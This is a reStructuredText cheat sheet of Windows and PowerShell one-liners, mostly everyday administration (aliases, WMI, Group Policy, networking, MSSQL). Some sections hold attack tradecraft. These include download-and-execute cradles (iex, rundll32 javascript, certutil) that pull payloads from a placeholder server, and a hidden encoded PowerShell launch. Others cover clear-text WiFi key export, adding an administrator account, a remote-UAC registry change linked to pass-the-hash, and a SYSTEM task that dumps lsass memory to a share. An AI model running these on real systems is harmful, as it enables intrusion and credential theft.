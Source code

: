 One-liners commands
===================

Here are some useful short commands for Windows systems that may be useful.


Basic PowerShell commands
-------------------------

* ``sls`` (``Select-String``): look for a pattern.

  Example:

  .. code-block:: sh

      # Search my-needle in the input
      sls my-needle

      # Search my-needle in files ending with .txt
      sls -Path *.txt -Pattern my-needle

  Documentation:

  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/select-string?view=powershell-6
  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_regular_expressions?view=powershell-6

* ``gcm`` (``Get-Command``): List cmdlets (PowerShell commands) matching a pattern.

  Example:

  .. code-block:: sh

      # List commands using "WMI" in their names
      gcm -noun *WMI*

* Typing "Ctrl+Space" spawns PSReadLine module, which presents possible completion options (in a more powerful way than "Tab").

* Basic PowerShell constructions include:

  - ``ForEach-Object``, to perform an operation (between braces) on each item of an object (aliases: ``ForEach`` and ``%``)
  - ``Where-Object``, to filter an object (aliases: ``Where`` and ``?``)

PowerShell also provides commands to browse the filesystem.
Here is a correspondence table between PowerShell commands and commands from other systems, that are also available in PowerShell as aliases:

+-------------------------+--------------------------------------------------+----------------------------------------------+
|                         |                     Aliases                      |                                              |
|      cmdlet             +---------+-------------------+--------------------+ Description                                  |
|                         |   PS    | ``cmd.exe``       |   UNIX shell       |                                              |
+=========================+=========+===================+====================+==============================================+
| ``Get-Location``        | ``gl``  | ``pwd``           | ``pwd``            | Get the current node.                        |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Location``        | ``sl``  | ``cd``, ``chdir`` | ``cd``, ``chdir``  | Change the current node.                     |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-ChildItem``       | ``gci`` | ``dir``           | ``ls``             | List the objects stored at the current node. |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``New-Item``            | ``ni``  | ``md``, ``mkdir`` | ``mkdir``          | Create a directory.                          |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Item``            | ``gi``  |                   |                    | Return the properties of the current item.   |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Item``            | ``si``  |                   |                    | Define the content of an item.               |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Copy-Item``           | ``cpi`` | ``copy``          | ``cp``             | Copy an object.                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Move-Item``           | ``mi``  | ``move``          | ``mv``             | Move an object.                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Rename-Item``         | ``rni`` | ``rn``            | ``ren``            | Rename an object.                            |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Remove-Item``         | ``ri``  | ``del``, ``rd``,  | ``rm``, ``rmdir``  | Remove an object.                            |
|                         |         | ``erase``         |                    |                                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Content``         | ``gc``  | ``type``          | ``cat``            | Get the content of an object.                |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Content``         | ``sc``  |                   |                    | Define the content of an object.             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-ItemProperty``    | ``gp``  |                   |                    | Return a property.                           |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Copy-ItemProperty``   | ``cpp`` |                   |                    | Copy a property.                             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Move-ItemProperty``   | ``mp``  |                   |                    | Move a property.                             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Rename-ItemProperty`` | ``rnp`` |                   |                    | Rename a property.                           |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Compare-Object``      |         | ``compare``       | ``diff``           | Compare several objects.                     |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Write-Output``        |         | ``write``         | ``echo``           | Print something to the standard output.      |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Invoke-WebRequest``   | ``iwr`` |                   | ``curl``, ``wget`` | Perform a HTTP request.                      |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Help``            |         | ``help``          | ``man``            | Get the help associated with a cmdlet.       |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+

PowerShell provides objects in several hierarchies, that are "drives" provided by "providers":

.. code-block:: sh

    Get-PSProvider
    Get-PSDrive

    # Get the version of PowerShell
    Get-Host
    $PSVersionTable.PSVersion

In order to use a drive, add a colon symbol to it:

.. code-block:: sh

    ls alias:
    ls env:
    ls variable:
    ls env:path
    ls function:h*
    cat function:help

    # In order to get $PATH:
    (ls env:path).value
    cat env:path
    echo $env:path

In order to use a provider, add two colons to it::

    ls registry::HKEY_USERS

Get the methods and properties:

.. code-block:: sh

    # For an object (instance of a class)
    $obj | Get-Member
    $obj | gm

    # For a class (for the static methods and properties)
    $obj | Get-Member -Static


Download and run
----------------

Download and run a script

* PowerShell (``iex`` is an alias to ``Invoke-Expression``):

  .. code-block:: sh

      powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

      powershell.exe -exec bypass "iex (New-Object Net.Webclient).DownloadString('http://webserver/payload.ps1')"

* JavaScript through Rundll32 (used by Win32/Poweliks malware):

  .. code-block:: sh

      rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();

* Using ``certutil``:

  .. code-block:: sh

      certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe

Source: https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/amp/

Downloading files with PowerShell:

.. code-block:: sh

    $content = (New-Object Net.WebClient).DownloadString("http://webserver/file.txt")

    # Save to a file
    Invoke-WebRequest -Uri http://webserver/file.txt -OutFile file.txt -UseBasicParsing

    # With BITS (Background Intelligent Transfer Service) (ipmo = Import-Module)
    ipmo BitsTransfer;Start-BitsTransfer -Source "http://webserver/file.txt" -Destination C:\Windows\Temp\

Run a PowerShell script:

.. code-block:: sh

    %windir%\System32\WindowsPowerShell\v1.0\powershell.exe -Noninteractive -ExecutionPolicy Bypass –Noprofile -file MyScript.ps1

Run PowerShell code endoded as UTF-16LE+Base64:

.. code-block:: sh

    # start /B : start application without creating a new window
    # -nop for -NoProfile : do not load the PowerShell profile
    # -sta for -Sta : start using a single-threaded apartment
    # -noni for -NonInteractive : does not present an interactive prompt
    # -w 1 or -w hidden or -win Hidden for -WindowStyle Hidden : hidden PowerShell window
    # -enc for -EncodedCommand : execute the command encoded in base64
    # -ep bypass or -exec bypass for -ExecutionPolicy bypass : set the default execution
    #       policy for the current session and saves it in $env:PSExecutionPolicyPreference
    #       (redundant when -enc is given)
    start /b powershell -nop -sta -w 1 -enc "$(iconv -t utf16le < payload.ps1 | base64)"


Proxy settings
--------------

Get the HTTP proxy which is currently configured:

.. code-block:: sh

    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer
    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable
    netsh winhttp dump

Add a HTTP proxy:

.. code-block:: sh

    netsh winhttp set proxy 127.0.0.1:3128


WiFi profiles
-------------

List available WiFi profiles:

.. code-block:: sh

    netsh wlan show profiles

Export WiFi profiles (username and password) to ``%APPDATA%\<profile>.xml``:

.. code-block:: sh

    cmd.exe /c netsh wlan export profile key=clear folder="%APPDATA%"

Source: https://securelist.com/shedding-skin-turlas-fresh-faces/88069/

In PowerShell, without writing any file:

.. code-block:: sh

    $results = (netsh wlan show profiles) |
        Select-String '\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} |
        %{(netsh wlan show profile name=$name key=clear)} |
        Select-String 'Key Content\W+\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} |
        %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }}

    # Display the results or record them in files
    $results
    $results | Format-Table -Wrap
    $results | Format-Table -AutoSize
    $results | Out-GridView
    $results | Export-Csv -Path .\wifi.csv -NoTypeInformation -Encoding ASCII
    $results | Out-File -FilePath .\wifi.txt -Encoding ASCII

Sources:

* https://jocha.se/blog/tech/display-all-saved-wifi-passwords
* https://www.tenforums.com/tutorials/27997-see-wireless-network-security-key-password-windows-10-a.html
* https://community.idera.com/database-tools/powershell/ask_the_experts/f/learn_powershell_from_don_jones-24/19610/convert-one-liner-to-more-readable-code


User and group management
-------------------------

Some commands to list and manage users and groups

.. code-block:: sh

    # Get information on the current user
    whoami
    whoami /groups
    whoami /priv
    whoami /all

    # Local users and groups manager
    lusrmgr.msc

    # net command on local accounts
    net user
    net localgroup

    # net command on Active Directory accounts
    net user /domain
    net group

    # query command
    query user

    # Get information about the current sessions on a server
    qwinsta
    query session

    # PowerShell, with MS Exchange cmdlet
    # Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010
    Get-User | Export-CSV C:\Temp\AllUsers.csv -NoTypeInfo

    # WMI (PowerShell)
    Get-WmiObject Win32_UserAccount
    Get-CimInstance -ClassName Win32_UserAccount
    Get-CimInstance -ClassName Win32_Group

    # Add an adminitrator user
    net user newuser password /add
    net localgroup Administrators newuser /add

Spawn an elevated prompt when UAC is enabled (User Account Control):

.. code-block:: sh

    Start-Process -Verb RunAs PowerShell
    saps -verb runas powershell

In order to login as administrator to a remote machine without using the built-in administrator (RID 500), a registry key needs to be set.

.. code-block:: sh

    cmd /c reg add
      HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
      /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

    PowerShell Set-ItemProperty
        –Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"
        –Name LocalAccountTokenFilterPolicy –Value 1 –Type DWord

This has been described in many blog posts:

* https://support.microsoft.com/en-us/help/942817/how-to-change-the-remote-uac-localaccounttokenfilterpolicy-registry-se
* https://blogs.msdn.microsoft.com/wmi/2009/07/24/powershell-remoting-between-two-workgroup-machines/
* https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/


Enumerate live objects
----------------------

Enumerate all processes:

.. code-block:: sh

    tasklist /v
    query process *
    Get-Process
    # "gps" and "ps" are aliases of Get-Process

Find processes from its name:

.. code-block:: sh

    tasklist /v | find /I "explorer.exe"  # Only in cmd.exe, as "find" requires the quotes
    Get-Process | Select Name=explorer.exe

Enumerate all services:

.. code-block:: sh

    Get-Service | Export-CSV C:\Temp\AllServices.csv -NoTypeInfo
    gsv | epcsv C:\Temp\AllServices.csv -NoTypeInfo


Group Policy
------------

Edit Local Group Policy:

.. code-block:: sh

    # Local Group Policy Editor (with local GPO to Local Security Policy, Administrative Templates...)
    gpedit.msc
    # Local Security Policy (with SRP=Software Restriction Policies, AppLocker, Password Policies...)
    secpol.msc

For example to configure the servicing channel on Windows 10 (https://docs.microsoft.com/en-gb/windows/deployment/update/waas-servicing-channels-windows-10-updates):

* Open ``gpedit.msc`` (Local Group Policy Editor).
* Go to "Local Computer Policy/Computer Configuration/Administrative Templates/Windows Components/Windows Update/Windows Update For Business".
* Click on "Select when Preview Builds and Feature Updates are received". A dialog box opens.
* Select "Enabled" and choose a readiness level among "Preview Build - Fast", "Preview Build - Slow", "Release Preview", "Semi-Annual Channel (Targeted)" or "Semi-Annual Channel".
* Click on "OK".

Export the Local Group Policy:

.. code-block:: sh

    secedit /export /cfg system_config.cfg

    # With at least Windows Vista or Windows Server 2008
    gpresult /H GPReport.html
    gpresult /SCOPE COMPUTER /H GPReport-Computer.html

    # Display RSoP summary data (Resultant Set of Policies)
    gpresult /R

    # RSoP GUI
    RSOP.msc

Work on Group Policy Objects (GPO):

.. code-block:: sh

    # Launch the Group Policy Management Console
    gpmc.msc

    # Apply the GPO
    gpupdate /force

The Remote Server Administration Tools (RSAT) provides Group Policy PowerShell Cmdlets (https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/ee461027%28v=technet.10%29):

.. code-block:: sh

    Get-WindowsCapability -Online | ? Name -like 'Rsat.GroupPolicy.Management.Tools*'
    Get-GPOReport -All -ReportType Html -Path GpoReport.html

Logon scripts are located in folder ``%SystemRoot%\SYSVOL\sysvol\{domain DNS name}\Policies\{GUID of the GPO}\User\Scripts\Logon`` (on Domain controllers).
They can be implemented in VBScript (``.vbs`` extension) or PowerShell (``.ps1`` extension).
In GPMC, they are linked to a GPO using either:

* Computer Configuration -> Policies -> Windows Settings -> Scripts (Startup / Shutdown)
* User Configuration -> Policies -> Windows Settings -> Scripts (Logon/Logoff)

A third way of running scripts on a system consists in using Immediate Scheduled Tasks:

* Computer Configuration -> Preferences -> Control Panel Settings -> Scheduled Tasks


Scheduled tasks
---------------

In order to create a scheduled task that runs at 13:37 `ProcDump <https://docs.microsoft.com/en-us/sysinternals/downloads/procdump>`_ on ``lsass.exe`` (Local Security Authority Subsystem service process) and uploads the result onto a network share, `schtasks <https://docs.microsoft.com/en-us/windows/win32/taskschd/schtasks>`_ can be used:

.. code-block:: sh

    # /ru user context under which the task runs
    # /sc schedule frequency
    # /st start time in HH:mm format (24-hour time)
    #      Python: (datetime.datetime.now() + datetime.timedelta(minutes=2)).strftime("%H:%M")
    # /tn task name
    # /tr task to be run
    schtasks /create /tn "NameOfMyTask" /ru SYSTEM /sc once /st 13:37
        /tr "\\192.0.2.42\ro\procdump64.exe -accepteula -ma lsass.exe \\192.0.2.42\rw\lsass.dmp"

    # List tasks with their status and next run time
    schtasks


Software information
--------------------

In order to list the upgrades that have been applied, using DISM (Deployment Image Servicing and Management Tool):

.. code-block:: sh

    dism /online /get-packages

In order to check for an applied update, with its KB number:

.. code-block:: sh

    dism /online /get-packages | findstr KB99999

    # systeminfo.exe enumerates the "hotfixes" too
    systeminfo.exe | findstr KB99999

    # WMI also provides such an information in
    # System.Management.ManagementObject#root\CIMV2\Win32_QuickFixEngineering
    wmic qfe get hotfixid | find "KB99999"
    wmic qfe | find "KB99999"

    # From PowerShell
    Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid}

    # https://docs.microsoft.com/en-gb/powershell/module/Microsoft.PowerShell.Management/Get-HotFix?view=powershell-5.1
    Get-HotFix -id KB99999

The software may be signed using a certificate in a certificate store.

.. code-block:: sh

    # Manage user certificates
    certmgr.msc

    # Manage local machine certificates
    certlm.msc


Boot configuration
------------------

.. code-block:: sh

    msconfig

    bcdedit /enum all


Installed software
------------------

.. code-block:: sh

    wmic product get "name,version" /format:csv > applications.csv


Networking
----------

Get the current status of the network stack:

.. code-block:: sh

    # Get the configuration of all network adapters
    ipconfig /all

    # Display the content of the DNS client resolver cache
    ipconfig /displaydns

    # Get network routes
    route print

    # Show the active TCP connections and listening TCP and UDP ports, with PIDs
    netstat -ano

TCP port forwarding with netsh:

.. code-block:: sh

    netsh interface portproxy add v4tov4 listenport=1234 listenaddress=192.0.2.42
        connectport=80 connectaddress=10.13.37.1

On a WindowsDNS server:

.. code-block:: sh

    # Get server information
    dnscmd /info

    # Enumerate zones and records
    dnscmd /enumzones
    dnscmd /zoneprint ${ZONE_NAME}
    dnscmd /enumrecords ${ZONE_NAME} ${NODE_NAME}


Firewall
--------

.. code-block:: sh

    wf.msc

    Get-NetFirewallProfile
    Show-NetFirewallRule

    netsh advfirewall export "C:\Users\Administrator\Desktop\advfirewallpolicy.wfw"
    netsh advfirewall show allprofiles
    netsh advfirewall show global
    netsh advfirewall firewall dump

    # On old versions of Windows
    netsh advfirewall dump


Network shares
--------------

.. code-block:: sh

    # List the network shares currently used
    net use

    # List the shares on a server (use "localhost" for local shares)
    net view my-server /ALL

    # List shares using WMI (on a remote server or localy)
    $shares = Get-CIMInstance –Classname Win32_Share -computername my-server -filter "Type=0"
    $shares | foreach {
    "     Share Name   : " + $_.name + "
         Source Folder: " + $_.path + "
         Description  : " + $_.Description + "
         Caption      : " + $_.Caption + "
         Type         : " + ('0x{0:x}' -f $_.Type) + "
    "
    }

    # Mount a share to a drive letter
    net use /user:me Z: \\my-server\my-share
    New-PSDrive –Name "Z" -PSProvider FileSystem –Root "\\my-server\my-share"

In order to easily provide files to a Windows host from a Linux system, it is possible to use impacket to start a simple Samba server:

.. code-block:: sh

    smbserver.py -smb2support -username me -password mypass my-share /path/to/my-share


Other network commands
----------------------

Some scripts such as https://github.com/thom-s/netsec-ps-scripts/blob/master/printer-telnet-ftp-report/printer-telnet-ftp-report.ps1 use PowerShell cmdlets in order to perform connectivity tests:

.. code-block:: sh

    # Send a ping to the given IP address
    Test-Connection -ComputerName 192.0.2.42 -Quiet -Count 1 -InformationAction Ignore

    # Test telnet connectivity
    $result = Test-NetConnection -ComputerName 192.0.2.42 -Port 23
    $result.PingSucceeded
    $result.TcpTestSucceeded

    # Open a network socket to FTP port
    $client = New-Object System.Net.Sockets.TcpClient(192.0.2.42, 21)
    $client.Close()

Documentation:

* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/test-connection?view=powershell-6
* https://docs.microsoft.com/en-us/powershell/module/nettcpip/test-netconnection?view=win10-ps


Filesystem management
---------------------

Since Windows Vista, it is possible to create symbolic links on Windows:

.. code-block:: sh

    # Create a symbolic link to a file
    mklink "C:\Path\to\link\file" "C:\Path\to\target\file"

    # Create a symbolic link to a directory
    mklink /D "C:\Path\to\link\directory" "C:\Path\to\target\directory"

    # With PowerShell 5.0 (Windows 10)
    New-Item -Path "C:\Path\to\link" -ItemType SymbolicLink -Value "C:\Path\to\target"

The command to mount a volume on a path is `mountvol <https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mountvol>`_:

.. code-block:: sh

    # Example from Microsoft documentation
    mountvol \sysmount \\?\Volume\{2eca078d-5cbc-43d3-aff8-7e8511f60d0e}\

    # Enumerate the volumes from PowerShell
    Get-WmiObject Win32_Volume

It is also possible to associate a path with a drive letter using command `subst <https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/subst>`_:

.. code-block:: sh

    subst Z: "C:\my\path"

    # Remove the association
    subst Z: /d


Alternate Data Streams
----------------------

Get files with ``Zone.Identifier`` alternate data stream (ADS):

.. code-block:: sh

    Get-ChildItem -Recurse | Get-Item -Stream Zone.Identifier -ErrorAction SilentlyContinue |
        Select-Object FileName

Read an ADS:

.. code-block:: sh

    Get-Content -Stream Zone.Identifier .\my-application.exe

Remove an ADS:

.. code-block:: sh

    Remove-Item .\my-application.exe -Stream Zone.Identifier

When downloading a file from the Internet, ``dir`` shows a filename with suffix ``:Zone.Identifier:$DATA`` and with 26 bytes (each lines are ended by ``"\r\n"``:

.. code-block:: ini

    [ZoneTransfer]
    ZoneId=3

The Zone identifier is 0 for the local machine, 1 for the local intranet, 2 for trusted sites, 3 for the Internet or 4 for restricted sites.

The ADS ``Zone.Identifier`` may contain other fields such as ``ReferrerUrl=...``.

The empty ADS matches the usual content of a file. This means that the content is both accessible through ``filepath`` and ``filepath::$DATA``.


CSV and table viewer
--------------------

Display a simple CSV file in a simple GUI, from a PowerShell prompt:

.. code-block:: sh

    Import-Csv -Path file.csv | Out-GridView
    ipcsv -Path file.csv | ogv

In order to produce a CSV from a PowerShell command:

.. code-block:: sh

    ... | Sort-Object -Property Timestamp | Export-Csv file.csv -notypeinformation
    ... | sort -Property Timestamp | epcsv file.csv -notypeinformation

For a table in the CLI:

.. code-block:: sh

    ... | Format-Table
    ... | ft

    # Show all properties of the object
    ... | Format-Table -Property *
    ... | ft *

In order to show a table as a list:

.. code-block:: sh

    ... | Format-List
    ... | fl

    # Show all properties of the object
    ... | Format-List -Property *
    ... | fl *

In order to filter the properties of an object, it is possible to use ``Select-Object`` with filters (eg. ``Select-Object a*, b*`` for properties that start with "a" or "b").

``Select-Object`` can also be used to compute new properties.
For example, in order to compute a size in Gigabytes, it is possible to use the unit suffix ``GB`` and the format string ``{0:N2}`` which formats floats using 2 digits after the dot:

.. code-block:: sh

    Get-WmiObject Win32_DiskDrive |
      Select-Object Model,Status,@{Name='SizeGB';Expression={"{0:N2}" -f ($_.Size / 1GB)}}


WMI
---

WMI (Windows Management Instrumentation) provides information about many parts of the operating system:

.. code-block:: sh

    # Enumerate WMI providers
    Get-WmiObject -Class __Provider | ft

    # Get information about the OS
    gwmi Win32_OperatingSystem

    # Launch a GUI to enumerate WMI classes for known namespaces (and PowerShell ScriptOMatic)
    # In C:\Windows\System32\wbem\wbemtest.exe
    wbemtest.exe

In order to gather information about a Trusted Platform Module (TPM), the namespace needs to be changed:

.. code-block:: sh

    $tpm = Get-WmiObject -Namespace "root\CIMV2\Security\MicrosoftTpm" -Class Win32_Tpm
    $tpm.IsEnabled()
    $tpm.IsActivated()
    $tpm.IsOwned()
    $tpm.SelfTest()


MSSQL client
------------

In order to connect to a MSSQL server from a PowerShell CLI (cf. https://docs.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection?view=netframework-4.7.2):

.. code-block:: sh

    $ConnectionString = "Server=MSSQL-SRV\MY-INSTANCE;Database=mydb;User ID=sa;Password=sa;"
    $SqlConnection = New-Object System.Data.SqlClient.SqlConnection($ConnectionString)
    $SqlConnection.Open()
    $SqlConnection.State
    # Result: "Open"

To run a trivial SQL query:

.. code-block:: sh

    # The verbose way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand
    $SqlCmd.CommandText = "SELECT 42"
    $SqlCmd.Connection = $SqlConnection
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter
    $SqlAdapter.SelectCommand = $SqlCmd
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

    # The more-compact way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT 42", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

In order to find out which tables the logged user has access, here are some queries:

* ``SELECT * FROM sys.databases``
* ``SELECT * FROM sys.tables``

The following commands export the first rows of every table to files, once a ``$SqlConnection`` has been created:

.. code-block:: sh

    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT * FROM sys.tables", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $AllTables = $DataSet.Tables[0] | Sort-Object -property name

    $AllTables | ForEach-Object {
        $tblName = $_.name
        $csvName = "dump_top_" + $tblName + ".csv"
        echo "Exporting data to " $csvName
        $SqlCmd = New-Object System.Data.SqlClient.SqlCommand(("SELECT TOP 10000 * FROM " + $tblName), $SqlConnection)
        $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
        $DataSet = New-Object System.Data.DataSet
        $SqlAdapter.Fill($DataSet)
        $DataSet.Tables[0] | Export-Csv $csvName -notypeinformation
    }

On a SQL Server, it is also possible to create a virtual drive (cf. https://docs.microsoft.com/en-us/sql/powershell/navigate-sql-server-powershell-paths?view=sql-server-2017):

.. code-block:: sh

    New-PSDrive -Name MYDB -Root SQLSERVER:\SQL\localhost\DEFAULT\Databases\mydb
    Set-Location MYDB:\Tables\Users
